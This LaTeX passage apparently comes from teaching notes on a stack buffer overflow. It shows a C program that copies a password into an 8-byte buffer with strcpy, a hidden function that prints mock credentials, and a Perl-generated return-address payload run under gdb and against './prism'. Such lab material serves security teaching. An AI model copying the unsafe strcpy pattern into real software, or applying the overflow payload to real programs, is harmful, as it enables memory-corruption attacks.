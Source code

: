 \begin{enumerate}
\begin{enumerate}
\begin{enumerate}
  		\item Segmentation fault
  		\end{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
  		\begin{enumerate}
  		\item Succes!
  		\end{enumerate}
  	\end{enumerate}
  \item ./prism ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char *argv[]){
	if(argc != 3){
		printf("Error: %s <IP-address> <password> required\n", argv[0]);
		exit(0);
	}

	if(make_connection(argv[1], argv[2]) == 0){
		printf("\nMaking connection...\n");
		printf("====================\n");
		printf("\nConnection failed!\n");
		exit(0);
	}
}

int make_connection(char *ip, char *pass){
	char pw[8];
	int return_val = 0;

	strcpy(pw, pass);

	return return_val;
}

int gegevens(){
	printf("\nNSA\n");
	printf("*********\n");
	printf("Name Password\n");
	printf("------- -----------\n");
	printf("Frans Bauer fRanske123\n");
	printf("Lorrie Popovich loPo007\n");
	printf("Hello Kitty yttikolleh\n");
	printf("Klok Kenluider ringring00\n");

	return(0);
}
\end{lstlisting}